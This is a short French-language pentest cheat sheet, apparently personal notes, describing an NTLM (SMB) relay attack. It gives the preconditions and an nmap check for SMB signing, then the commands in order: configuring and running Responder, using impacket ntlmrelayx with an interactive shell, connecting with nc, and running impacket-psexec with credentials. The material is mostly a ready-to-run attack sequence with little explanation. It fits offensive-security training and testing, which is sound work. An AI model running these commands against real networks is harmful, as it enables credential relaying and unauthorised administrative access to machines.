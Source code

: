 ## NTLM Relay
Aussi appeler `SMB Relay`

Pour cela fonctionne, il faut que `SMB Signing soit desactiver` et l'utilisateur dont les identifiants sont relayer doit etre `administrateur` au niveau de la machine.

```sh
nmap --script=smb2-security-mode IP
# regarder le message de smb2-security-mode:
	Host script results:
	| smb2-security-mode: 
	|   311: 
	|_    Message signing enabled but not required

# Cela nous montre que notre attaque peut fonctionner car la signature est acitver et n'est pas requise.
```

En suite, il faut desactiver les services SMB et HTTP de responder.

```sh
sudo nano /usr/share/responder/Responder.conf
	[Responder Core]
	SMB = Off
	HTTP = Off
```

```sh
sudo responder -I eth0
```

Combiner avec ntlmrelayx de impacket l'ajouter de `-i` a la commande impacket-ntlmrelayx pour obtenir un shell sur la machine distante et utiliser nc pour interagire avec elle.

```sh
ntlmrelayx.py -t 192.168.179.132 -smb2support -i
```

```sh
nc 127.0.0.1 NTRELAYX_PORT
```

```c
impacket-psexec username:password@target-ip
```

